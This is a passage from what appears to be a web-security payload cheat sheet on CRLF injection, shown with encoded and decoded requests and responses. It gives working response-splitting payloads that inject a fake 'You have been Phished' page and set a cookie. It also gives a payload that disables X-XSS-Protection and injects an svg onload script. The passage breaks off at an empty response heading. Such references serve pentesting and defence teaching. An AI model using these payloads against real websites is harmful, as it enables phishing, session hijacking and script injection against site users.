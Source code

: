 Now the attacker has set their own cookie.

### Cross Site Scripting

Beside the session fixation that requires a very insecure way of handling user session, the easiest way to exploit a CRLF injection is to write a new body for the page. It can be used to create a phishing page or to trigger an arbitrary Javascript code (XSS).

**Requested page**:

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```
```
http://www.example.net/index.php?lang=en
Content-Length: 0
 
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34
 
<html>You have been Phished</html>
```

**HTTP response**:

```http
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

In the case of an XSS, the CRLF injection allows to inject the `X-XSS-Protection` header with the value value "0", to disable it. And then we can add our HTML tag containing Javascript code .

**Requested page**:

```powershell
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```
```
http://example.com/
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
//..
```
**HTTP Response**:
